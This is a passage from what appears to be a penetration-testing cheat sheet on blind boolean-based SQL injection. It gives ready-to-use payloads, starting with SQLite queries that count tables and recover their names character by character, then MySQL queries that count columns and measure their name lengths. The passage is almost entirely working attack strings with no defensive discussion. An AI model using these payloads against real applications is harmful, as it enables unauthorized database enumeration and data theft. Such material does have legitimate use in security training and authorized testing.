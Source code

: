 {% tab title="SQLite" %}
First, retrieve the number of tables:

```sql
1' AND (SELECT COUNT(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name not like 'sqlite_%')=2-- #True -> 2 tables
```

Second, retrieve length of each table

```sql
-- If True, the first table lenght is 5
1' AND (SELECT LENGTH(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name not like 'sqlite_%' LIMIT 1 OFFSET 0)=5--

-- If True, the second table lenght is 5
1' AND (SELECT LENGTH(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name not like 'sqlite_%' LIMIT 1 OFFSET 1)=5-- 
```

Third, retrieve name of each table

<pre class="language-sql"><code class="lang-sql">-- If True, the first char of the first table is u
<strong>1'AND (SELECT HEX(SUBSTR(tbl_name,1,1)) FROM sqlite_master WHERE type='table' and tbl_name not like 'sqlite_%' LIMIT 1 OFFSET 0)=HEX('u')--
</strong>
-- If True, the second char of the first table is s
1'AND (SELECT HEX(SUBSTR(tbl_name,2,1)) FROM sqlite_master WHERE type='table' and tbl_name not like 'sqlite_%' LIMIT 1 OFFSET 0)=HEX('s')--

-- If True, the first char of the second table is p
1'AND (SELECT HEX(SUBSTR(tbl_name,1,1)) FROM sqlite_master WHERE type='table' and tbl_name not like 'sqlite_%' LIMIT 1 OFFSET 1)=HEX('p')--
</code></pre>
{% endtab %}
{% endtabs %}

#### Getting Columns

{% tabs %}
{% tab title="MySQL" %}
First, retrieve the number of columns:

```sql
1' AND (SELECT COUNT(column_name) FROM information_schema.columns WHERE table_schema=database() AND table_name='TABLE_NAME_HERE')=2-- -  #True -> 2 columns
```

Second, retrieve length of each column

```sql
-- If True, the first column's name lenght is 3
1' AND (SELECT LENGTH(column_name) FROM information_schema.columns WHERE table_schema=database() AND table_name='TABLE_NAME_HERE' LIMIT 0,1)=3-- - 

-- If True, the name of second column's lenght is 8
1' AND (SELECT LENGTH(column_name) FROM information_schema.columns WHERE table_schema=database() AND table_name='TABLE_NAME_HERE' LIMIT 1,1)=8-- - 
```
